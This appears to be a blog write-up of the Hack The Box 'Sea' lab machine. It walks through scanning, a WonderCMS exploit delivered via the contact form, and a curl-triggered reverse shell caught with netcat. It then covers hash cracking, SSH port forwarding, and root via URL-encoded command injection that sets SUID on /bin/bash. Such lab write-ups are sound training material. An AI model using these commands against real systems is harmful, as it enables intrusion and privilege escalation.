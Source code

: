 ```yaml
---
layout: post
title: 'Sea Walkthrough: Conquering Hack The Box Season 6 "Sea htb"'
date: 14-08-2024
categories: [HackTheBox]
tag: season 6
---
```

# Sea Walkthrough: Conquering Hack The Box Season 6 "Sea Machine"

![](/img/1.png)

## Introduction  

 __Hack The Box Season 6, "Sea Machine," is a thrilling cybersecurity competition with a nautical theme, offering challenges that simulate real-world hacking scenarios. Participants test their skills in areas like web exploitation, cryptography, and network security. It's an exciting opportunity for both beginners and experts to sharpen their hacking abilities in a competitive, engaging environment.__



## Reconnaissance

 Network Scanning: as always, we will do nmap scan to know what is opened ports and it’s services in this machine.as always, we will do nmap scan to know what is opened ports and it’s services in this machine.

 ```
    -─(hu1k0㉿kali)-[~/Desktop/HTB]
    └─$ sh nmap.sh 10.10.11.28
    Performing initial scan on 10.10.11.28...
    Open ports: 22,80
    Performing detailed scan on 10.10.11.28...
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
    |   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
    |_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-title: Sea - Home
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```
 then I browsed the site but didn't find anything interesting.
 
 ![](/img/vv1.png)
 ![](/img/vv2.png)
 

## directory discovery

 - __for directory discovery i use [ffuf](https://www.kali.org/tools/ffuf/) tool.__

 ```
  ┌──(hu1k0㉿kali)-[~/Desktop/HTB/reports] 
  └─$ ffuf -u http://sea.htb//FUZZ -w /usr/share/wordlists/dirb/common.txt  -mc 200,301,302,401,402,403 

 ```
 ![fufu1](/img/fffffu.png)
 
 - __first i go for '200' directories {contact.php}__
 - __i try some xss and sqli but no response__
  
  ![](/img/contact.png)

 - __then i tried all '301' directories but all give me Forbidden.__

  * messages , data , plugins , themes ...

 ![](/img/for.png)

 * then i back to http://sea.htb/ and press 'ctrl+u' to view-source:
  i notice this pass "http://10.10.11.28/themes/bike/css/style.css" which $bike$ is unique so i back and try to see what under this directory "/themes/bike/" 
 ```
  ┌──(hu1k0㉿kali)-[~/Desktop/HTB/reports]
  └─$ ffuf -u http://sea.htb/themes/bike/FUZZ -w /usr/share/wordlists/dirb/common.txt  -mc 200,301,302,401,402,403 -e .txt,.md,.php 
 ```
 ![](/img/rrrrr.png)

 - i go for '200' status

  README.md , version , summary , LICENSE..

 ![](/img/readme.png) 

 ![](/img/version.png)

## exploit

 - __so i go and search about it__  [Link.](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413) 

 ![](/img/exploit.png)

 - Usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252

 ![](/img/exlll.png)
 
 __We can send the link by [Contact](http://sea.htb/contact.php) form to the admin__

 ![](/img/sewee.png)
 
 - now after reading the exploit script we will find it create a shell file in this pass {/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port}

 - so we will send a request by [Curl](https://curl.se/docs/tooldocs.html)

 > curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.16.65&lport=9999'

 ![](/img/curl.png)
 
 > nc -nvlp 9999

 yup and we get the shell 

 ![](/img/shell.png) 
 
 now i will try to find any data to help me to get ``amay`` access
 
 ![](/img/db1.png)
 
 > cat database.js 

 ![](/img/333.png)

 * i found hash don't forget to remove a backslash \

 then i will use [johntheripper](https://www.kali.org/tools/john/) to crack this hash

 > john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

 - __now i have ```user``` and ```password``` i will to connect to ```ssh```__

 > ssh amay@10.10.11.28

 ![](/img/user.png)

## Privilege Escalation 

 - i download [linpeas.sh](https://github.com/XDev05/PEASS-ng/blob/master/linPEAS/linpeas.sh) to scan this machine 

 ![](/img/linpeas.png)

 > chmod +x linpeas.sh
 > ./linpeas.h

 ![](/img/biong.png)

 - __we have something open in localhost in this port so to access that there is a technique called Port Forwarding. It basically takes a user’s port and redirect it’s traffic to our port. To do that we have to run the following command.__

 > ssh -L 8888:10.10.16.6:8080 amay@10.10.16.6

 __and open in my browser ```127.0.0.1:8888``` and access with same ssh data..__

 ![](/img/yyyy.png)

 i will try command injection. add simicolon after [log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;]  then encode url the comman "touch /home/amay/hulk.hack" =>> "%74%6f%75%63%68%20%2f%68%6f%6d%65%2f%61%6d%61%79%2f%68%75%6c%6b%2e%68%61%63%6b" 

 ![](/img/sert.png)

 ![](/img/tert.png)

 - __and it's WORK !!__
 
 - then i try this command 
 ```"chmod u+s /bin/bash" =>> "%63%68%6d%6f%64%20%20%75%2b%73%20%20%2f%62%69%6e%2f%62%61%73%68"```

 ![](/img/q33.png)

 * then go to ssh connection and type.
 > /bin/bash -p 

 ![](/img/root.png)